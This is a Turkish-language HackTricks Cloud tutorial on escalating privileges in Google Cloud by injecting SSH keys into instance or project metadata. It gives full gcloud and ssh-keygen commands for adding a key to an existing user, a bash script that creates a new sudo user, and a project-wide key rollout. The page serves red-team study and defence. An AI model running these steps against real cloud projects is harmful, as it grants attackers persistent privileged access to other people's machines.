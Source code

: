 # GCP - Özel SSH Metadata Ekle

## GCP - Özel SSH Metadata Ekle

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Metadata'yı Değiştirme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örnekte metadata değişikliği, **bir saldırgan gerekli izinleri elde ederse önemli güvenlik risklerine yol açabilir**.

#### **Özel Metadata'ya SSH Anahtarlarının Dahil Edilmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Misafir Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) üzerinden betikler çalıştırır. Bunun kritik bir bileşeni, **yetkilendirilmiş SSH genel anahtarlarındaki güncellemeleri** kontrol etmek için örnek metadata uç noktasını **düzenli olarak kontrol etmek** üzere tasarlanmış [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)dır.

Bu nedenle, bir saldırgan özel metadata'yı değiştirebilirse, daemon'un yeni bir genel anahtar bulmasını sağlayabilir; bu anahtar işlenecek ve **yerel sisteme entegre edilecektir**. Anahtar, **mevcut bir kullanıcının veya `sudo` ayrıcalıkları olan yeni bir kullanıcının** `~/.ssh/authorized_keys` dosyasına eklenecektir; bu, anahtarın formatına bağlıdır. Ve saldırgan, ana bilgisayarı tehlikeye atabilecektir.

#### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı ekleme**

1. **Örnekteki Mevcut SSH Anahtarlarını İnceleyin:**
*   Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını tanımlamak üzere komutu çalıştırın. Çıktıdaki ilgili bölüm `metadata` altında, özellikle `ssh-keys` anahtarının altında olacaktır.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH anahtarlarının formatına dikkat edin: kullanıcı adı anahtarın önünde, iki nokta ile ayrılmıştır.
2. **SSH Anahtarı Metadata'sı için Bir Metin Dosyası Hazırlayın:**
* Kullanıcı adları ve bunlara karşılık gelen SSH anahtarlarının detaylarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, mevcut anahtarları korumak için gereklidir.
3. **Hedef Kullanıcı için Yeni Bir SSH Anahtarı Oluşturun (`alice` bu örnekte):**
*   Yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın; yorum alanının (`-C`) hedef kullanıcı adıyla eşleştiğinden emin olun.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Yeni genel anahtarı `meta.txt` dosyasına ekleyin, örneğin metadata'daki formatı taklit ederek.
4. **Örneğin SSH Anahtarı Metadata'sını Güncelleyin:**
*   Güncellenmiş SSH anahtarı metadata'sını örneğe uygulamak için `gcloud compute instances add-metadata` komutunu kullanın.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Yeni SSH Anahtarı ile Örneğe Erişim Sağlayın:**
*   Yeni anahtarı kullanarak SSH ile örneğe bağlanın ve hedef kullanıcı bağlamında shell'e erişin (`alice` bu örnekte).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Yeni bir ayrıcalıklı kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturmak mümkündür:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Proje düzeyinde SSH anahtarları <a href="#sshing-around" id="sshing-around"></a>

**Proje düzeyinde SSH anahtarları uygulayarak** bulut ortamında birden fazla Sanal Makine (VM) için SSH erişimini genişletmek mümkündür. Bu yaklaşım, projede açıkça proje genelinde SSH anahtarlarını engellemeyen herhangi bir örneğe SSH erişimi sağlar. İşte özet bir kılavuz:

1. **Proje Düzeyinde SSH Anahtarlarını Uygula:**
*   `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine eklemek için `gcloud compute project-info add-metadata` komutunu kullanın. Bu işlem, SSH anahtarlarının projedeki tüm VM'ler tarafından tanınmasını sağlar, aksi takdirde bir VM "Proje genelinde SSH anahtarlarını engelle" seçeneğini etkinleştirmiştir.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **Proje Genel Anahtarları Kullanarak Örneklerine SSH Bağlan:**
* Proje genelinde SSH anahtarları mevcut olduğunda, projedeki herhangi bir örneğe SSH ile bağlanabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişim sağlar.
* Bir örneğe SSH ile bağlanmanın doğrudan bir yöntemi, `gcloud compute ssh [INSTANCE]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve proje düzeyinde ayarlanan SSH anahtarlarını kullanarak erişim sağlamaya çalışır.

## Referanslar

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
